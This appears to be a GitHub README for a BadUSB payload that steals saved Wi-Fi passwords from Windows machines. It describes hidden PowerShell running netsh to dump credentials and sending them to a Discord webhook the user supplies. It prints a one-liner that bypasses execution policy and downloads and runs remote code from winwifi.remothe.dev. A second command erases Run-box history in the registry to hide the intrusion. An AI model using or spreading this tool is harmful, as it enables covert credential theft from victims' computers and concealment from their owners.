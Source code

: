 # WLAN Windows Password - BadUSB

A script used to acquire target WLAN Passwords on a Windows machine and send them using a Discord webhook of your choosing.

**Category**: WLAN, Credentials

## Description

A script used to acquire target WLAN Passwords on a Windows machine and send them using a Discord webhook of your choosing.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then clears run history.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content
* Invoke-powershell command to remove 'Run' history values from Registry

ENG 🇺🇸
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm winwifi.remothe.dev | iex

powershell "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue" | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'

## Credits

- [RemoTheDev](https://remothe.dev) - Modified script and deleted redundancies for subjectively more efficent use and less space.
- [Aleff](https://aleff-github.github.io/) - BadUSB script foundation
